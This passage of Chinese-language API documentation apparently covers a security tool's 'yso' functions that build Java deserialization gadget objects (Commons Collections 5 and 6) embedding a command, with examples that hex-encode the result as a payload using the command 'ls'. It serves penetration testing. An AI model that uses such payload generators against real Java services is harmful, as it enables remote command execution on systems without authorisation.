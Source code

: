 Example:
```
command := &#34;ls&#34; // 假设的命令字符串
javaObject, _ = yso.GetCommonsCollections5JavaObject(command)
gadgetBytes,_ = yso.ToBytes(javaObject)
hexPayload = codec.EncodeToHex(gadgetBytes)
println(hexPayload)
```


#### 定义

`GetCommonsCollections5JavaObject(cmd string) (*JavaObject, error)`

#### 参数
|参数名|参数类型|参数解释|
|:-----------|:---------- |:-----------|
| cmd | `string` |   |

#### 返回值
|返回值(顺序)|返回值类型|返回值解释|
|:-----------|:---------- |:-----------|
| r1 | `*JavaObject` |   |
| r2 | `error` |   |


### GetCommonsCollections6JavaObject

#### 详细描述
GetCommonsCollections6JavaObject 基于Commons Collections 6 序列化模板生成并返回一个Java对象。

这个函数接受一个命令字符串作为参数，并将该命令设置在生成的Java对象中。

cmd：要设置在Java对象中的命令字符串。

返回：成功时返回生成的Java对象及nil错误，失败时返回nil及相应错误。

Example:
```
command := &#34;ls&#34; // 假设的命令字符串
javaObject, _ = yso.GetCommonsCollections6JavaObject(command)
gadgetBytes,_ = yso.ToBytes(javaObject)
hexPayload = codec.EncodeToHex(gadgetBytes)
println(hexPayload)
```


#### 定义

`GetCommonsCollections6JavaObject(cmd string) (*JavaObject, error)`

#### 参数
|参数名|参数类型|参数解释|
|:-----------|:---------- |:-----------|
| cmd | `string` |   |
